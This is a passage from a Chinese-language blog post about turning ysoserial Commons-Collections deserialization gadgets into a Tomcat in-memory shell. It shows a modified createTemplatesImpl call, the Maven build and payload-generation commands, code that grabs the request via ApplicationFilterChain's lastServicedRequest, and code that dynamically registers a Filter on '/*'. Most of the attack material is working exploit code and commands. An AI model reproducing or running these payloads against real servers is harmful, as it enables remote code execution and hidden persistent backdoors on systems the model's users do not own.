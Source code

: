 // required to make TemplatesImpl happy
Reflections.setFieldValue(templates, "_name", "Pwnr");
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
return templates; 
``` `}` 
```

可以看到，第二个传入的Class参数，我们并没有用到javassist，而是直接转字节数组，然后放到TemplatesImpl实例的_bytecodes字段中了。

最后，回到ysoserial中有调用Gadgets.createTemplatesImpl的payload类中来，我这边对每一个都做了拷贝修改，例如CommonsCollections11，我拷贝其修改后的类为CommonsCollections11ForTomcatEchoInject，在调用`Gadgets.createTemplatesImpl(command[0];`的地方，改成了`final Object templates = Gadgets.createTemplatesImpl(null, TomcatEchoInject.class);`

并且，对ysoserial的main入口做一点小修改，因为原来的代码规定必须要有payload的入参，而我们这里不需要了

ysoserial.GeneratePayload#main：

```
if (args.length < 1) {
    printUsage();
    System.exit(USAGE_CODE);
} 
```

在ysoserial执行maven指令生成jar包

```
mvn clean -Dmaven.test.skip=true compile assembly:assembly 
```

这样，我们就能使用这个新的payload（CommonsCollections11ForTomcatEchoInject）了

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatEchoInject > ~/tmp/TomcatShellInject.ysoserial 
```

#### 步骤二

在使用步骤一生成的序列化数据进行反序列化攻击后，我们就能通过下面这段代码获取到request和response对象了

```
java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
f.setAccessible(true);
ThreadLocal t = (ThreadLocal) f.get(null);
//不为空则意味着第一次反序列化的准备工作已成功
ServletRequest servletRequest = (ServletRequest) t.get() 
```

接着，我们要做的就是动态注册Filter到tomcat中，参考[《动态注册之Servlet+Filter+Listener》](https://www.jianshu.com/p/cbe1c3174d41)，可以看到，其中通过ServletContext对象（实际获取的是ApplicationContext，是ServletContext的实现，因为门面模式的使用，后面需要提取实际实现），实现了动态注册Filter

```
javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("threedr3am", threedr3am);
filterRegistration.setInitParameter("encoding", "utf-8");
filterRegistration.setAsyncSupported(false);
filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false, new String[]{"/*"}); 
```
